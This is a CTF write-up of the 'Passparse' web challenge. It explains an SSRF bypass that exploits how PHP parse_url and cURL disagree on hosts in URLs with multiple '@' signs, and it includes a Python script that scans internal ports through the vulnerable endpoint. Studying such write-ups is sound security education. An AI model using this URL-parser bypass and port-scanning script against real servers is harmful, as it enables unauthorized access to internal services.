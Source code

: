 # Passparse (web 500)

### overview
We were given a web app that sends a request to the server using axios via a button :

[http://passparser.web.ctf.shellmates.club/verify.php?url=URL_HERE](http://passparser.web.ctf.shellmates.club/verify.php?url=URL_HERE)

We first had to bypass the hostname check using well known techniques but no one worked and we continue had a message saying "You don't have permission".

Then we though it was an HTTP Splitting attack due to the response when sending a CRLF at the end of the URL.

But at the end we had to re-read the JS code with a comment 'update cURL !', so we started fetching for CURL PHP URL parsing conflicts and we end up in this article [https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf](https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf).

### the attack

So the vulnerability was that when sending this format of url :
```
http://random@rabbit.com:80@zion.com/
```
in PHP when using parse_url function to get the host it will get the last one **zion.com**, but in cURL it will take the first one **rabbit.com**
```
http:// random @ 127.0.0.1:80 @ passparser.web.ctf.shellmates.club/
                |____________|   |______________________________|
                     |                          |
                    cURL                    PHP parse_url
```
So we then just had to fetch for internal services by changing ports, here is the script:
```python
import requests

url = "http://passparser.web.ctf.shellmates.club/verify.php?url=http://a@127.0.0.1:{}@passparser.web.ctf.shellmates.club/"
headers = {
		"Accept": "application/json, text/plain, */*",
		"X-Auth-Token": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.SflKxwRJSMeKKF2QT4fwpMeJf36POk6yJV_adQssw5c",
		"User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36",
		"Referer": "http://passparser.web.ctf.shellmates.club/",
		"Accept-Encoding": "gzip, deflate",
		"Accept-Language": "en-US,en;q=0.9",
		"Connection": "close"}
for x in range(31):
    port = f"90{str(x).zfill(2)}"
    print(f'Trying port {port}')
    try:
        r = requests.get(url.format(port), headers=headers, timeout=2)
    except requests.exceptions.ReadTimeout:
        continue
    if len(r.text) != 13:
        print(r.text)
        break
    else:
        continue

```


~ **J4ck** alias **fncf0x**
